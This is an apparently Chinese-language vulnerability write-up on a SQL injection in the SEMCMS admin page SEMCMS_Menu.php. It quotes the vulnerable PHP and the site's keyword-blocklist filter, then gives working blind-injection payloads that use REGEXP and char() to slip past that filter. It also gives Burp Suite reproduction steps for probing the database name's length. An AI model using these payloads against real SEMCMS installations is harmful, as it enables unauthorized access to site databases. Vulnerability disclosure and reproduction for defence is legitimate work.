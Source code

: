 漏洞成因点：

/xcR45q_Admin/SEMCMS_Menu.php 第66行

 

漏洞代码

```
<?php
 } elseif ($type == "edit") {
 
   $row = mysqli_fetch_array($db_conn->query("SELECT * FROM sc_menu WHERE ID=" . $_GET["ID"]));
 
   ?>
```

  

可以看出 此处的ID通过GET传参时会执行sql语句 

过滤代码在/Include/contorl.php处

第151行

```
function test_input($data) { 
    //$data = str_replace("%", "percent", $data);
    $data = trim($data);
    $data = stripslashes($data);
    $data = htmlspecialchars($data,*ENT_QUOTES*);
    return $data;
  }
```

以及第8行

```
function inject_check_sql($sql_str) {
 
   return preg_match('/select|and|insert|=|%|<|between|update|\'|\*|union|into|load_file|outfile/i',$sql_str); 
 } 
 function verify_str($str) { 
    if(inject_check_sql($str)) {
      exit('Sorry,You do this is wrong! (.-.)');
     } 
   return $str;
 } 
```

 

通过以上过滤内容 可以构造paylaod

```
-1%20or%20length(database())%20REGEXP%20char(94,53,36)
```

 

漏洞复现

 

访问

```
http://url/xcR45q_Admin/SEMCMS_Menu.php
```

 

Brupsuite抓包  由于新建站点的时候数据库名的长度为5 所以payload构造为

```
-1%20or%20length(database())%20REGEXP%20char(94,53,36)
```

（判断数据库名长度是否为5）

 

插入payload查看回显 

![img](file:///C:/Users/12275/AppData/Local/Temp/msohtmlclip1/01/clip_image002.jpg)

 

此时更改payload

```
-1%20or%20length(database())%20REGEXP%20char(94,54,36)
```

（判断数据库名长度是否为6） 

插入payload查看回显 

![img](file:///C:/Users/12275/AppData/Local/Temp/msohtmlclip1/01/clip_image004.jpg)

 

后续可以根据页面的变化继续进行sql注入